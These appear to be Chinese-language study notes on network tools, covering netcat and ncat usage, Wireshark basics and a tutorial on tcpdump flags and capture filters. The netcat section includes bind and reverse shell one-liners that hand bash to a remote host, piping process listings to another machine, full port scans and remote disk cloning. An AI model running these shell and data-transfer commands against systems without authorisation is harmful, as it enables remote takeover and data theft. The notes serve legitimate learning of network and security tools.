










# netcat - nc

```bash
# 作为客户端连接到服务器的特定端口
nc -nv 123.125.50.29 110
nc -nv 123.125.50.138 25
nc -nv 1.1.1.1 80

# 传输文本信息
s: nc -l -p 333
c: nc -nv 10.1.1.12 333
c: ls -l | nc -nv 10.1.1.12 333

s: nc -l -p 333 > ps.txt
c: ps aux | nc -nv 10.1.1.12 333 -q 1

s: nc -l -p 333 > lsof.txt
c: lsof | nc -nv 10.1.1.12 333 -q 1

# 传输文件
A: nc -l -p 333 > 1.mp4
B: nc -nv 1.1.1.1 333 < 1.mp4 -q 1

A: nc -l -p 333 < a.mp4 -q 1
B: nc -nv 1.1.1.1 333 > a.mp4

# 传输目录
A: tar -cvf - sublime/ | nc -lp 333 -q 1
B: nc -nv 1.1.1.1 333 | tar -xvf -

# 加密传输文件
A: nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
B: mcrypt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1

# 流媒体服务
A: cat 1.mp4 | nc -lp 333
B: nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -

# 端口扫描
nc -nvz 1.1.1.1 1-65535
nc -nvzu 1.1.1.1 1-1024

# 远程克隆硬盘
A: nc -lp 333 | dd of=/dev/sda
B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

# 远程控制
# 正向
A: nc -lp 333 -c bash
B: nc 1.1.1.1 333

# 反向
A: nc -lp 333
B: nc 1.1.1.1 333 -c bash

```

# nc-ncat

* nc 传输的流量缺乏加密和身份验证的功能
* ncat 包含在 nmap 工具包中

```bash
# 服务端监听 333 端口
ncat -c bash --allow 192.168.1.119 -nvl 333 --ssl

# 客户端连接到 333 端口
ncat -nv 192.168.1.115 333 --ssl

```


# wireshark

* 抓包嗅探协议分析
* 抓包引擎
	* Libpcap9 -- linux
	* Winpcap 10 -- windows
* 解码能力


1. 混杂模式





2. 抓包筛选器





3. 首选项









4. 筛选器

* 抓包筛选器

* 显示筛选器





5. 常见协议包

* arp
* icmp
* tcp 三次握手
* udp
* dns
* http
* ftp


6. 信息统计


# tcpdump 简介

* 抓包
	* 默认只抓取 68 个字节 
* 读取抓包文件


```bash
$ man tcpdump

$ man pcap-filter

$ tcpdump -h
tcpdump version 4.99.0
libpcap version 1.10.0 (with TPACKET_V3)
OpenSSL 1.1.1l  24 Aug 2021
Usage:

tcpdump
[-AbdDefhHIJKlLnNOpqStuUvxX#]
[ -B size ]
[ -c count ]
[--count]
[ -C file_size ]
[ -E algo:secret ]
[ -F file ]
[ -G seconds ]
[ -i interface ]
[ --immediate-mode ]
[ -j tstamptype ]
[ -M secret ]
[ --number ]
[ --print ]
[ -Q in|out|inout ]
[ -r file ]
[ -s snaplen ]
[ -T type ]
[ --version ]
[ -V file ]
[ -w file ]
[ -W filecount ]
[ -y datalinktype ]
[ --time-stamp-precision precision ]
[ --micro ]
[ --nano ]
[ -z postrotate-command ]
[ -Z user ]
[ expression ]

tcpdump -i eth0 -s 0 -w a.cap
tcpdump -r a.cap
tcpdump -A -r a.cap # ASCII 码格式的数据包
tcpdump -X -r a.cap # 十六进制打印数据包
tcpdump -i eth0 tcp port 22

tcpdump -n -r http.cap | awk '{print $3}' | sort -u
tcpdump -n src host 145.254.160.237 -r http.cap
tcpdump -n dst host 145.254.160.237 -r http.cap
tcpdump -n port 53 -r http.cap
tcpdump -n tcp port 53 -r http.cap
tcpdump -n udp port 53 -r http.cap
tcpdump -n -X udp port 53 -r http.cap

tcpdump -A -n 'tcp[13] = 24' -r http.cap

```


`tcpdump` 命令用来保存和记录网络流量。你可以用它来观察网络上发生了什么，并可用来解决各种各样的问题，包括和网络通信无关的问题。除了网络问题，我经常用 `tcpdump` 解决应用程序的问题。如果你发现两个应用程序之间无法很好工作，可以用 `tcpdump` 观察出了什么问题。 `tcpdump` 可以用来抓取和读取数据包，特别是当通信没有被加密的时候。

## 基础知识

了解 `tcpdump` ，首先要知道 `tcpdump` 中使用的标记（**flag**）。在这个章节中，我会涵盖到很多基本的标记，这些标记在很多场合下会被用到。

### 不转换主机名、端口号等

```
# tcpdump -n
```

### 增加详细信息

```
# tcpdump -v
# tcpdump -vvv
```

增加一个简单 `-v` 标记，输出会包含更多信息，例如一个 IP 包的生存时间(ttl, time to live)、长度和其他的选项。

### 指定网络接口

```
# tcpdump -i eth0
# tcpdump -i any
```

### 写入文件

```
# tcpdump -w /path/to/file
```

### 读取文件

```
# tcpdump  -r /path/to/file
```

### 指定抓包大小

```
# tcpdump  -s 100
```

较新版本的 `tcpdump` 通常可以截获 65535 字节，但某些情况下你不需要截获默认大小的数据包。运行 `tcpdump` 时，你可以通过 `-s` 标记来指定快照长度。

### 指定抓包数量

```
#  tcpdump  -c 10
```

## 过滤器

介绍完基础的标记后，我们该介绍过滤器了。 `tcpdump` 可以通过各式各样的表达式，来过滤所截取或者输出的数据。我在这篇文章里会给出一些简单的例子，以便让你们了解语法规则。你们可以查询 `tcpdump` 帮助中的 pcap-filter 章节，了解更为详细的信息。

### 查找特定主机的流量

```
#  tcpdump  -nvvv -i any -c 3 host 10.0.3.1
```

运行上述命令， `tcpdump` 会像前面一样把结果输出到屏幕上，不过只会显示源 IP 或者目的 IP 地址是 `10.0.3.1` 的数据包。通过增加主机 `10.0.3.1` 参数，我们可以让 `tcpdump` 过滤掉源和目的地址不是 `10.0.3.1`的数据包。

### 只显示源地址为特定主机的流量

```
# tcpdump -nvvv -i any -c 3 src host 10.0.3.1
# tcpdump -nvvv -i any -c 3 dst host 10.0.3.1
```

前面的例子显示了源和目的地址是 `10.0.3.1` 的流量，而上面的命令只显示数据包源地址是 `10.0.3.1` 的流量。这是通过在 `host` 前面增加 `src` 参数来实现的。这个额外的过滤器告诉 `tcpdump` 查找特定的源地址。反过来通过 `dst` 过滤器，可以指定目的地址。

### 过滤源和目的端口

```
#  tcpdump  -nvvv -i any -c 3 port 22 and port 60738
# tcpdump -nvvv -i any -c 3 'port 22 && port 60738'
```

通过类似 `and` 操作符，你可以在 `tcpdump` 上使用更为复杂的过滤器描述。这个就类似 `if` 语句，你就这么想吧。这个例子中，我们使用 `and` 操作符告诉 `tcpdump` 只输出端口号是 `22` 和 `60738` 的数据包。这点在分析网络问题的时候很有用，因为可以通过这个方法来关注某一个特定会话（session）的数据包。

你可以用两种方式来表示 `and` `操作符，and` 或者 `&&` 都可以。我个人倾向于两个都使用，特别要记住在使用 `&&` 的时候，要用单引号或者双引号包住表达式。在 BASH 中，你可以使用 `&&` 运行一个命令，该命令成功后再执行后面的命令。通常，最好将表达式用引号包起来，这样会避免不预期的结果，特别当过滤器中有一些特殊字符的时候。


### 查找两个端口号的流量

```
#  tcpdump  -nvvv -i any -c 20 'port 80 or port 443'
```

你可以用 `or` 或者 `||` 操作符来过滤结果。在这个例子中，我们使用 `or` 操作符去截获发送和接收端口为 `80` 或 `443` 的数据流。这在 Web 服务器上特别有用，因为服务器通常有两个开放的端口，端口号 `80` 表示 `http` `连接，443` 表示 `https`。

### 查找两个特定端口和来自特定主机的数据流

```
#  tcpdump  -nvvv -i any -c 20 '(port 80 or port 443) and host 10.0.3.169'

# tcpdump -nvvv -i any -c 20 '((port 80 or port 443) and (host 10.0.3.169 or host 10.0.3.1)) and dst host 10.0.3.246'

```

前面的例子用来排查多端口的协议问题，是非常有效的。如果 Web 服务器的数据流量相当大， `tcpdump` 的输出可能有点混乱。我们可以通过增加 `host` 参数进一步限定输出。在这种情况下，我们通过把 `or` 表达式放在括号中来保持 `or` 描述。

在一个过滤器中，你可以多次使用括号。在下面的例子中，下面命令可以限定截获满足如下条件的数据包：发送或接收端口号为 `80` 或 `443`，主机来源于 `10.0.3.169` 或者 `10.0.3.1`，且目的地址是 `10.0.3.246`。


## 数据包检查

### 用十六进制和 ASCII 码打印数据包

```
#  tcpdump  -nvvv -i any -c 1 -XX 'port 80 and host 10.0.3.1'
```

排查应用程序网络问题的通常做法，就是用 `tcpdump` 的 `-XX` 标记打印出 16 进制和 ASCII 码格式的数据包。这是一个相当有用的命令，它可以让你看到源地址，目的地址，数据包类型以及数据包本身。但我不是这个命令输出的粉丝，我认为它太难读了。

### 只打印 ASCII 码格式的数据包

```
#  tcpdump  -nvvv -i any -c 1 -A 'port 80 and host 10.0.3.1'
```

我倾向于只打印 ASCII 格式数据，这可以帮助我快速定位数据包中发送了什么，哪些是正确的，哪些是错误的。你可以通过 `-A`标记来实现这一点。


从上面的输出，你可以看到我们成功获取了一个 http 的 `GET` 请求包。如果网络通信没有被加密，用人类可阅读的格式打出包中数据，对于解决应用程序的问题是很有帮助。如果你排查一个网络通信被加密的问题，打印包中数据就不是很有用。不过如果你有证书的话，你还是可以使用 `ssldump` 或者 `wireshark`。

## 非 TCP 数据流

虽然这篇文章主要采用 TCP 传输来讲解 `tcpdump` ，但是 `tcpdump` 绝对不是只能抓 TCP 数据包。它还可以用来获取其他类型的数据包，例如 ICMP、 UDP 和 ARP 包。下面是一些简单的例子，说明 `tcpdump` 可以截获非 TCP 数据包。

### ICMP 数据包

```
# tcpdump -nvvv -i any -c 2 icmp
```

### UDP 数据包

```
# tcpdump -nvvv -i any -c 2 udp
```
